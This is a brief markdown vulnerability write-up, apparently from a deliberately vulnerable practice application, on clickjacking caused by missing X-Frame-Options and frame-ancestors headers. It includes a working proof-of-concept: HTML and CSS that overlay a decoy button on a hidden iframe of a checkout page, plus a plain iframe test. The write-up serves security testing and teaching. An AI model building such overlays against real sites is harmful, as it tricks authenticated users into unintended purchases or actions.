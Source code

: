 # Clickjacking
This attack tricks users into clicking on a button, link, or other interactable on an attacker controlled/compromised website that performs an unintendded action on an authenticated and/or trusted site.

## Exploitation
**Location:** _Entire Application_

Clickjacking is present since the X-Frame-Options / Content-Security-Policy: frame-ancestors directive are both not properly implemented on the application.  For exploitation a more intricately designed website can be made to simulate a realistic attacker website meant to scam users authenticated to vulnerablecandle, the attack can be tested through this example HTML text:

    # HTML
    <button style="z-index: 2; position: absolute; margin-left: 100px; margin-top: 30px;" class="button"> Remove Add</button>
    <div style="overflow: hidden; margin: 15px auto; max-width: 50px;">
        <iframe scrolling="no" src="http://localhost:4200/checkout" style="z-index: 1; position: absolute; border: 0px none; margin-left: -650px; height: 200px; margin-top: -100px; width: 200px;"></iframe>
    </div>

    # CSS
    .button {
    background-color: #4CAF50;
    border: none;
    color: white;
    padding: 32px 32px;
    text-align: center;
    text-decoration: none;
    display: block;
    font-size: 16px;
    margin: 4px 2px;
    cursor: pointer;
    }

For the sake of simplcity the recommended way to test for Clickjacking is simply testing an iframe like below:

    <html>
        <body>
            <iframe src="http://localhost:4200/checkout"></iframe>
        </body>
    </html>
    
